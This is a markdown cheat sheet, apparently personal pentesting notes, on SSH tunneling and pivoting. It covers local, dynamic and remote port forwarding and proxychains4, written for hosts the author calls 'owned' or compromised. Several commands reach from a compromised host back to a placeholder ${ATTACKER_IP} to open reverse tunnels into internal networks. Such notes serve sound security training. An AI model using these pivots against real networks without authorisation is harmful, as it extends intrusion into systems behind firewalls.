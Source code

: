 # SSH Tunneling

## Local Port Forwarding

Local SSH tunnel from `$OWNED_IP1` to some `EXTERNAL_IP` (run this from `${OWNED_IP0}`).
```
ssh -N -L 0.0.0.0:${OWNED_PORT0}:${EXTERNAL_IP}:${EXTERNAL_PORT} ${USER}@${OWNED_IP1}
```
This will allow traffic to go `${ATTACKER_IP} <--> ${OWNED_IP}:${OWNED_PORT} <--> ${EXTERNAL_IP}:${EXTERNAL_PORT}` 

## Dynamic Port Forwarding

If we want to be able to port-scan or otherwise interact with multiple ports of targets not directly reachable from our network,
we can use `proxychains4` with OpenSSH's dynamic port forward option.

With the following, OpenSSH opens a SOCKS proxy server:

```
ssh -N -D 0.0.0.0:${OWNED_PORT0} ${USER}@${OWNED_IP1}
```

To make sure packages are sent in a compatible manner, we use `proxychains4`.
the default config is found in `/etc/proxychains4.conf`, but we can also specify a config file with `-f $pathToConfig`.

a config could be to add to a `proxychains4.conf`:

```
socks5 	${OWNED_IP0} ${OWNED_PORT0} 
```

Now, we can do eg. a call with smbclient like so:

```
proxychains4 -f proxychains4.conf smbclient ...
```
The trick is to use whatever tool you are calling with the same parameters you would otherwise with regards to IPs and ports, and just let proxychains handle the proxying.

## Remote Port Forwarding

(pre-req): This requires that we've setup an SSH server on our kali machine with:
```
sudo systemctl start ssh
```

If the firewall setup doesn't allow us to SSH from `${OWNED_IP}`, which we have compromised, it can make sense to remote port forward back to our `${ATTACKER_IP}` with (run from `${OWNED_IP0}`):
```
ssh -N -R 127.0.0.1:${OWNED_PORT0}:${EXTERNAL_IP}:${EXTERNAL_PORT} ${ATTACKER_USER}@${ATTACKER_IP}
```
Now, we can interact with `${EXTERNAL_IP}:${EXTERNAL_PORT}` via `127.0.0.1:${OWNED_PORT0}`.


## Remote Dynamic Port Forwarding
(pre-req): This requires that we've setup an SSH server on our kali machine with:
```
sudo systemctl start ssh
```

From `${OWNED_IP}`, we can also do remote dynamic port forwarding with:

```
ssh -N -R ${PROXYCHAINS_PORT} ${ATTACKER_USER}@${ATTACKER_IP}
```
For this to work with `proxychains4`, we have to add the following to our config:

```
socks4 127.0.0.1 ${PROXYCHAINS_PORT}
```

Now, we can again interact with targets reachable from `${OWNED_IP}` from `${ATTACKER_IP}` by prefixing with `proxychains4` and then setting whatever IP/Port we want to hit. 

